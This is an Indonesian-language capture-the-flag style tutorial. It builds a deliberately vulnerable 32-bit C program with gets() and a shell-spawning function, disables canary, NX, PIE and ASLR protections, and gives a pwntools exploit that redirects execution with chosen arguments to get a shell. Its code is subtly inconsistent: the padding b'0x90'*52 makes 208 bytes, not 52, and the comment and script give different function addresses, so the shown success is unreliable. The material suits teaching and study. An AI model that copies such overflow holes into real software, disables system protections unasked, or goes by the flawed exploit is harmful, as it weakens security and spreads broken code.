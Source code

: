 [x] NO Canary ~ -fno-stack-protector
[x] NO PIE ~ -no-pie
[x] NO NX ~ -z execstack
[x] NO ASLR ~ echo 0 > /proc/sys/kernel/randomize_va_space


tantangan kali ini meningkat menjadi 

```c
#include<stdio.h>

void hackrich(int a, int b)
{
    if(a==0x10 && b==0x15)
    {
        printf("Hacked !!!!!\n");
        system("/bin/sh");
    }
    else if(a==0x10)
    {
	    printf("your second parameter is wrong!! \n");
    }
    else
    {
	    printf("you are NOOB !!\n");
    }
}

void foo()
{
    char buffer[40];
    puts("give me your input :)\n");
    gets(buffer);
}

void main()
{
    foo();
}
```

kita tidak bisa langsung mengarahkan EIP ke hackrich saja karena param a dan b harus juga di set sesuai source code yaitu param a = 0x10 dan param b = 0x15

kita kompile dengan cara seperti ini untuk supaya tidak ada perlindungan Canary,NX,PIE

```bash
gcc -g -m32 -fno-stack-protector -z execstack -no-pie -o vuln32 vuln_program.c
```

setting disable untuk perlindungan ASLR pada sistem operasi linux

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

jalankan program vuln32 dengan gdb kemudian lakukan checksec

```bash
$gdb -q vuln32
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

berikut ini stack frame untuk program 32bit untuk fungsi dengan parameter

![[stack-frame-fungsi dengan parameter.png]]

dicari lokasi fungsi hackrich

```bash
gdb-peda$ pdisass hackrich
Dump of assembler code for function hackrich:
   0x08049182 <+0>: push   ebp
   0x08049183 <+1>: mov    ebp,esp
   0x08049185 <+3>: push   ebx
```

untuk mengekploitasinya seperti berikut

```python
# padding --> 52
# hackrich --> 0x8049176

from pwn import *

p = process('./vuln32')
print(p.recv())
padding = b'0x90'*52
hackrich = p32(0x08049182)
ret_address = p32(0x0)
param_a = p32(0x10)
param_b = p32(0x15)
p.sendline(padding+hackrich+ret_address+param_a+param_b)
print(p.clean())
p.interactive()
```

hasilnya 

```bash
python3 exploit.py 
[+] Starting local process './vuln32': pid 16054
b'give me your input :)\n'
b'\nHacked !!!!!\n'
[*] Switching to interactive mode
$
```